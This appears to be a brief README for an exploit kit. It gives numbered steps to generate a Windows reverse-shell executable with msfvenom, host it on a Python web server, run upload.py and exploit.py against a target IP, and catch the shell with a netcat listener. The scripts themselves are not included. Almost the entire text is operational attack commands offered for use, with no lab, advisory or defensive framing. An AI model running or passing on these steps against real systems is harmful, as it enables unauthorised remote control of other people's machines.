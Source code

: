 1. make revshell exe file
   
   ```
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.168.139 LPORT=443 -f exe > weinrev.exe
   ```
2. Run a python server on this directory
   ```
   python3 -m http.server 80
   ```
3. Edit upload.py at line 119 then run the command 
   ```
   python2 upload.py target_ip
   ```
4. wait a little bit for getting response in python server 
5. Run a nc for getting reverse shell
   ```
   nc -lnvp 443
   ```
6. Edit exploit.py at line 119 and run
   ```
   python2 exploit.py target_ip
   ```

